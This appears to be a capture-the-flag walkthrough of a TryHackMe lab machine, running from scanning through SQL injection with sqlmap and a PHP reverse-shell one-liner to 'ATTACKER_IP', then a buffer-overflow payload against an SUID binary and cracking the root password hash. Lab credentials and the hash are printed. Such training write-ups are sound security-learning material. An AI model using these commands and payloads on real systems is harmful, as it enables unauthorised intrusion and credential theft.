|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |   Easy     |  |  10.10.83.189 |  | [The Cod Caper](https://tryhackme.com/room/thecodcaper) |  |

---

Let's start off with a basic `nmap` scan with the `-a` option (aggressive scan) set:

```
sudo nmap -sC -sV -a 10.10.83.189
```



From the nmap results, we find out that 2 ports are open: **22 (SSH)** and **80 (HTTP)** 

We also see that the SSH version is **OpenSSH 7.2p2 Ubuntu 4ubuntu2.8**, while the Apache version is **httpd 2.4.18.**

Next, I wanted to try using [nikto](https://www.kali.org/tools/nikto/), a powerful vulnerability scanner. Let's run a basic `nikto` scan:

```
nikto -h 10.10.83.189
```

Since we know that there is a HTTP web server, I also ran a `gobuster` directory scan to enumerate any hidden directories:

 ```
 gobuster dir -u 10.10.83.189 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 ```

While those scans were running, I did some manual enumeration on the HTTP webserver. 

I first tried viewing the page source to see if any careless comments were left behind by the developer(s), or any other important information could be found. However, it did not reveal anything.

Next, I tried looking for other low-hanging fruit, such as the 'robots.txt' file. Unfortunately, I had no luck there as well.

After a long time, `nikto` managed to find an administrator login page:



*(NOTE: The reason why my `gobuster` scans did not find anything earlier was because the directory was /administrator.php. Hence, I needed to use the `-x` option to include the .php extension.)*

One thing that we can check for is **SQL Injection vulnerabilities** in the administrator login page. I got to learn how to use a new tool called `sqlmap`. 

---

*sqlmap is a tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.* 

---

We can run the following `sqlmap` command: 

```
sqlmap -u http://10.10.83.189/administrator.php --forms -a
```

where `-u` indicates the target url, `--forms` automatically selects parameters from <form> elements on the page, and `-a` retrieves everything from the database. 

---

Based on a [write-up](https://medium.com/@govindsharma606040/the-cod-caper-try-hack-me-writeup-dc4386ecf1e6) I found online, another possible command that we could use is:

```
sqlmap -u TARGET_URL --forms --dump --dbs --batch
```

---

After running the scan, we find out that the 'username' parameter in the form was vulnerable to 3 different types of SQL Injections:



From here, I let `sqlmap` exploit these injection points to dump out all of the data in the database, revealing pingu's credentials:

> pingudad : secretpass

After logging in with our newfound credentials at **/administrator.php**, we are brought to the following webpage:



Looks like a webpage where we can run shell commands on the target machine!

The room states that there are two possible ways to exploit this: 

1. Setting up a reverse shell

2. Using the `find` command to find hidden password files within the system

Personally, I will be trying to set up a reverse shell.

First, we set up a netcat listener on our localhost using `nc -lvnp 1234`.

Next, following an online [reverse-shell cheatsheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/), we run the following command on the webpage:

 ```
 php -r '$sock=fsockopen("ATTACKER_IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
 ```

This will use PHP to open a reverse shell back to us:



And with that, we're now in the target machine!

A simple `cat /etc/passwd` tells us that **pingu** has an account on the machine. 

Using the `find` command, I tried searching for any password files in the machine:

```
find -name pass -type f
```

The search results shows that there was a password file located in **/var/hidden/pass**. Fortunately for us, the file contains pingu's password: 

> pinguapingu

We can now log into pingu's account:



Next, we'll be using [LinEnum](https://github.com/rebootuser/LinEnum) to automate the process of privilege escalation enumeration. 

First, we have to transfer the LinEnum script over from our local machine to the remote machine. This can be done by hosting a Simple HTTP server using Python on our local machine, before using `wget` on the target machine to get the file.

**Local machine:**



**Remote machine:**



**Alternate method of transferring LinEnum using scp:**



After successfully transferring LinEnum, we just have to make it executable with `chmod +x` before running it.

From the scan, we can see that there is an interesting SUID-bit enabled file called **/opt/secret/root**:



Since this is an SUID binary, that means that it runs with the permissions of its owner. In this case, the owner is root! Hence, we could exploit this file to help us escalate our privileges.

This file seems to be an executable binary. However, nothing really happens when I ran it. 

To try and understand what the binary does, let's use a tool called `pwndbg`, which is a plugin to `GDB` (The GNU Project Debugger). This tool will allow us to reverse engineer the binary.

**Code provided by the room:**



The SUID file seems to expect 32 characters of input and then immediately exits. After further inspection of the source code, we can see that the program calls the `get_input()` method before it ends. We can also see that there is an unused method called `shell()`. In fact, this `shell()` method shows us the **shadow.bak** file on the system! 

Clearly we have to find some way to run this `shell()` function. This can be done with `pwndbg`. 

Firstly, let's use `gdb` on the /opt/secret/root binary: 

```
gdb /opt/secret/root
```



`pwndbg` is also automatically initialized. 

Next, we run `r < <(cyclic 50)` (the spaces have to be specific), which provides 50 characters worth of cyclic input. This is to test what happens when you send more than 32 characters to the buffer. 

Cyclic input goes like this: "aaaaaaaabaaacaaadaaaeaaaf...". Because it's in this cyclic format, it allows us to better understand the control we have over certain registers.

**Output:**



The focus point for this is the **EIP address** (0x6161616c), which is where the instruction pointer resides. The instruction pointer tells the program which bit of memory to execute next, which in an ideal case would have the program run normally. However, since we're able to overwrite it, we can theoretically execute any part of the program at any time. 

Thus, if we can overwrite the EIP to point to the address of the `shell()` function, we can force the program to execute it. This is also where the benefits of cyclic input show themselves. Recall that cyclic input goes in 4 character/byte sequences, meaning we're able to calculate exactly how many characters we need to provide before we can overwrite the EIP.

First, to calculate how many characters are needed to overwrite the EIP, we run:

```
cyclic -l ADDRESS_OF_TARGET
```

In this case, the target address is the address of EIP, which is: **0x6161616c**



Hence, 44 characters worth of input is required to overwrite the EIP address.

Now, we need to find out the address of the `shell()` method in memory so that we know what to overwrite the EIP address to. We can do this with GDB's `disassemble` command:

```
disassemble shell
```



Hence, the starting point of the shell() method, which is the address we want to overwrite to, is: **0x080484cb**

*Note: Modern CPU architectures are "little endian" meaning bytes are backwards. For example "0x080484cb" would become "cb840408"*

Instead of manually typing out a character 44 times, we can instead use Python to automate the process:

 ```
 python -c 'print "A"\*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
 ```

And with that, the EIP will point to the `shell()` function, causing it to be called. The contents of **shadow.bak** is then returned:



Turns out shadow.bak contains the hashed password of the root user! We can crack the hash using `john`.

To do so, we first need to identify what hashing algorithm was used for the password. Also, it is important to know which part is the actual hash portion. Below is the copied over hash:



Note that the actual hash is in between the first two `:` symbols. Hence, in this case, the hash is

`$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.`

Next, we use `john` with the rockyou.txt wordlist:

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
```



We thus obtain root's password: 

> love2fish

---

**ALTERNATE METHOD (Using Hashcat):** 

The method recommended by the room was to use another tool called `hashcat`. For `hashcat`, a hash type (`-m`) and attack mode (`-a`) will have to be supplied. Hash types can be found in the help menu. In our case, since we are dealing with SHA-512, the hash type is 1800. We will use the dictionary attack mode, which is mode 0. Ultimately, the command we'll use is:

```
hashcat -m 1800 -a 0 root.hash /usr/share/wordlists/rockyou.txt
```

---

With that, we are able to log into the root account on the SSH server and obtain **root.txt** located in /root.


 

 